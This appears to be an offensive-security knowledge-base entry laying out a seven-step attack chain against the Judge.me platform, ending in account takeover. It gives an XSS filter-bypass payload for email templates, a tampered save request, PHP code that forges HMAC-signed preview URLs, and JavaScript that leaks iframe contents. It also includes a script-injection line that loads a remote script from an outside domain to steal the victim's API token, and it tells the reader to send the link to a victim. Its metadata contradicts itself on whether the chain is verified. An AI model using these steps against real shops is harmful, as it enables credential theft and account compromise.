

---
tags:
  - xss
  - csp-bypass
  - clickjacking
  - auth-bypass
  - account-takeover
  - hmac
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/js-xss]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Credential Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Inject-XSS-Payload-into-Email-Template]]'
  - '[[procedures/Save-Template-with-Burp-Suite-Interception]]'
  - '[[procedures/Generate-HMAC-Authenticated-Preview-URL]]'
  - '[[procedures/Trigger-XSS-via-Victim-Preview]]'
  - '[[procedures/Bypass-CSP-with-Iframes-for-Content-Leakage]]'
  - '[[procedures/Clickjacking-to-Steal-API-Token]]'
  - '[[procedures/Account-Takeover-with-Stolen-Token]]'
step_count: 7
techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
  - '[[Steal Web Session Cookie]]'
  - '[[Valid Accounts]]'
updated_at: '2025-12-13T23:52:44.212Z'
description: >-
  Multi-stage attack exploiting XSS in email templates, CSP bypass, and
  clickjacking to steal API tokens and achieve full account takeover on Judge.me
  platform.
id: 41bce698-17cf-4013-8375-89af7b0cf876
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Credential Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
  - '[[Steal Web Session Cookie]]'
  - '[[Valid Accounts]]'
---
# Chained XSS in Judge.me Email Templates to Account Takeover via Clickjacking and HMAC Bypass

Multi-stage attack chain demonstrating exploitation of XSS in Judge.me's email templates, escalating to full shop account compromise through CSP bypass, iframe leakage, clickjacking, and HMAC-authenticated impersonation.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 7 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/js-xss]]

### Target Environment

- Judge.me platform integrated with WooCommerce/WordPress
- Access to shop admin panel
- Victim's shop domain and API token for HMAC generation

### Initial Access Requirements

- Attacker account on Judge.me with email template editing permissions
- Network access to intercept HTTP requests
- Victim interaction (clicking HMAC URL)

## Detailed Attack Procedures

### Step 1: Inject XSS Payload
procedure: [[procedures/Inject-XSS-Payload-into-Email-Template]]

**Objective**: Insert malicious payload into email template HTML to bypass js-xss sanitization.

**Instructions**: Navigate to the email template editor at `https://www.judge.me/shop/emails/[ID]/edit` and insert the payload `<! [endif]--onerror="<! [endif]-->"onload=""` into the HTML field using [[commands/xss-payload-injection]].

```html
<! [endif]--onerror="<! [endif]-->"onload=""
```

**Expected Output**: Payload appears in the template without immediate sanitization.

**Success Indicators**:
- Payload visible in editor
- No errors on insertion

### Step 2: Save Template with Interception
procedure: [[procedures/Save-Template-with-Burp-Suite-Interception]]

**Objective**: Bypass potential client-side sanitization by modifying the save request.

**Instructions**: Use [[tools/Burp-Suite]] to intercept the save request and inject the XSS payload via [[commands/burp-intercept-modify]]. Ensure the request body includes the unsanitized HTML.

```http
POST /shop/emails/[ID]/edit HTTP/1.1
...
html: <! [endif]--onerror="<! [endif]-->"onload=""
```

**Expected Output**: Template saved successfully with payload intact.

**Success Indicators**:
- 200 OK response
- Payload persists on reload

### Step 3: Generate HMAC-Authenticated URL
procedure: [[procedures/Generate-HMAC-Authenticated-Preview-URL]]

**Objective**: Create a URL that forces victim authentication and template preview.

**Instructions**: Use the shop's API token to generate HMAC with [[commands/hmac-generation]] for URL like `https://www.judge.me/shop/emails/2243518/edit?no_iframe=1&shop_domain=wordpress.caueo.me&platform=woocommerce&hmac=[HMAC]`.

```php
$hmac=hash_hmac('sha256',"no_iframe=1&platform=woocommerce&shop_domain={$domain}",$token,false);
```

**Expected Output**: Valid HMAC hash appended to URL.

**Success Indicators**:
- URL generates without errors
- HMAC validates on access

### Step 4: Trigger XSS via Victim Preview
procedure: [[procedures/Trigger-XSS-via-Victim-Preview]]

**Objective**: Execute XSS in victim's browser on judge.me domain.

**Instructions**: Send the HMAC URL to victim; upon clicking and previewing, the payload executes via [[commands/xss-trigger-preview]].

**Expected Output**: JavaScript execution, e.g., alert(1) or custom script load.

**Success Indicators**:
- Victim logs in as attacker
- XSS payload fires on preview

### Step 5: Bypass CSP with Iframes for Content Leakage
procedure: [[procedures/Bypass-CSP-with-Iframes-for-Content-Leakage]]

**Objective**: Leak authenticated content from same-origin iframes.

**Instructions**: From XSS context, create iframes to victim's page and use [[commands/iframe-content-leakage]] to access `parent.frames[0].document.body.innerHTML`.

```javascript
parent.frames[0].document.body.innerHTML
```

**Expected Output**: Leaked HTML content from target iframe.

**Success Indicators**:
- Iframe loads despite CSP
- Content readable via JS

### Step 6: Clickjacking to Steal API Token
procedure: [[procedures/Clickjacking-to-Steal-API-Token]]

**Objective**: Trick victim into revealing API token via overlay iframe.

**Instructions**: Load invisible iframe to `https://judge.me/settings`, overlay clickjack for 'Show' button, and leak via [[commands/load-external-exploit-script]].

```javascript
let x = document.createElement('script'); x.src = "//caueo.me/fb3af68664e3a23c0a5e516b94e515cf76f58243af317e447699ab0922617e4f.js"; document.body.appendChild(x);
```

**Expected Output**: AJAX fetch reveals token in updated HTML.

**Success Indicators**:
- Button click intercepted
- Token extracted from response

### Step 7: Account Takeover with Stolen Token
procedure: [[procedures/Account-Takeover-with-Stolen-Token]]

**Objective**: Impersonate victim using stolen token for full access.

**Instructions**: Use token to generate HMAC for victim's domain and access private actions via [[commands/hmac-generation]].

**Expected Output**: Authenticated access to shop resources.

**Success Indicators**:
- Successful API calls as victim
- Impersonation in support chat

## Attack Chain Summary

### Key Achievements

1. Bypassed js-xss filter for self-XSS in email previews
2. Escalated to content leakage and token theft via subdomain CSP weakness
3. Achieved 1-click account takeover without passwords

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]
- [[Steal Web Session Cookie]]
- [[Valid Accounts]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Credential Access]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
